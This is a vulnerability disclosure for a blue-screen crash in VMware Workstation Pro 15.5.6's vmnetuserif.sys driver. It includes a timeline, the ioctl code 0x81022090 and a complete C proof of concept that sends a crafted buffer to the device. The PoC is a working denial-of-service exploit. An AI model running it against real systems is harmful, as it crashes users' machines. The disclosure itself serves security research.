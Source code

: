 # VMware network application interface driver allows attackers to cause blue screen
These page show one of the practical vulns that Found. I reported these bugs to Security@vmware.com on On 27/8/2020 and now I have been told they have ignored the bugs and the details can be published.  I think it is a must to list the detailed infomation here.
## Time Line
 * 27/8/2020 Bugs were reported to Security@vmware.com.
 * 25/9/2020 Vmware got confirmation that the poc could cause system crash.
 * 26/9/2020 Vmware ignored the infomation for the poc required privilige to file "\\\\.\\VMnetUserif"
 * 12/11/2020 POC published.
 

 ## Abstract
 
* Name: VMware Workstation
* Date: 2020-8-27
* Reporter: Shuaibing Lu
* Vendor: http://www.vmware.com/
* Software Link: 3.https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859
* Version: VMware Workstation Pro 15.5.6
### Description
Kernel module vmnetuserif.sys in the network application interface driver of VMware Workstation Pro 15.5.6 allows attackers to inject a crafted argument via the argument of an ioctl on device "\\\\.\\VMnetUserif" with the command **0x81022090** and cause a kernel crash.

To explore this vulnerability, some one must open the device file  "\\\\.\\VMnetUserif", call an ioctl system call on this device file with the command **0x81022090** and a crafted payload as the third argument.
### PoC
```
//Experimental environment: win10 x64

//Software official website:https://www.vmware.com/cn.html

//Software download address:http:https://my.vmware.com/cn/web/vmware/downloads/details?downloadGroup=WKST-1556-WIN&productId=799&rPId=47859

//Software version：15.5.6 build-16341506

//Affected Component:

//poc


#include<stdio.h>

#include <windows.h>

typedef struct _IO_STATUS_BLOCK {

    union {

        NTSTATUS Status;

        PVOID    Pointer;

    } DUMMYUNIONNAME;

    ULONG_PTR Information;

} IO_STATUS_BLOCK, * PIO_STATUS_BLOCK;



typedef NTSTATUS(NTAPI* NtDeviceIoControlFile)(

    HANDLE           FileHandle,

    HANDLE           Event,

    PVOID            ApcRoutine,

    PVOID            ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    ULONG            IoControlCode,

    PVOID            InputBuffer,

    ULONG            InputBufferLength,

    PVOID            OutputBuffer,

    ULONG            OutputBufferLength

    );

int main() {
    char  DeviceName[100] = "\\\\.\\VMnetUserif";
    long command = 0x81022090;
    HANDLE hDriver = CreateFileA(DeviceName,
        GENERIC_READ | GENERIC_WRITE,					// Open for reading/writing| GENERIC_WRITE
        FILE_SHARE_READ | FILE_SHARE_WRITE, 			// Allow Share
        NULL,											// Default security
        OPEN_EXISTING,									// Opens a file or device, only if it exists.
        0, //FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,	// Normal file
        NULL); //CreateFileA(DeviceName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    ULONG dw;

    if (hDriver == INVALID_HANDLE_VALUE) {
        printf("Open device failed.\n");
        system("pause");

        return(-1);

    }

    LPCWSTR nt = L"ntdll";

    HMODULE hntdll = GetModuleHandle(nt);

    IO_STATUS_BLOCK p = {};

    NtDeviceIoControlFile tDeviceIoControl = (NtDeviceIoControlFile)GetProcAddress((HMODULE)hntdll, "NtDeviceIoControlFile");

    if (!tDeviceIoControl) {

        printf("[-] Fail to resolve ZwDeviceIoControlFile(0x%X)\n", GetLastError());

        system("pause");

    }

    printf("Start poc execution.\n");
    BYTE  brutebufInput[0x10000];
    BYTE  brutebufOutput[0x10000];
    BYTE  bufInput[0x10000];
    BYTE  bufOutput[0x10000];
    DWORD j = 100;
    DWORD nbBytes = 0;
    //LPVOID lpFakeBuffer = malloc(0x20000);

    memset(brutebufInput, 'A', 0x10000);

    //LPVOID Address = malloc(0x20000);

    memset(brutebufOutput, 'A', 0x10000);

    //tDeviceIoControl(hDriver, 0, 0, 0, &p, command, lpFakeBuffer, 0, (PVOID)Address, 0);
    DeviceIoControl(hDriver,command,&brutebufInput,1,&brutebufOutput,1,&nbBytes,NULL);
    


    return 0;

}
```
### References

CNVD: https://www.cnvd.org.cn/flaw/show/CNVD-2020-53154

### Screenshot

![image](https://github.com/datadancer/WinSysVuln/blob/main/VMnetUserif.jpg)
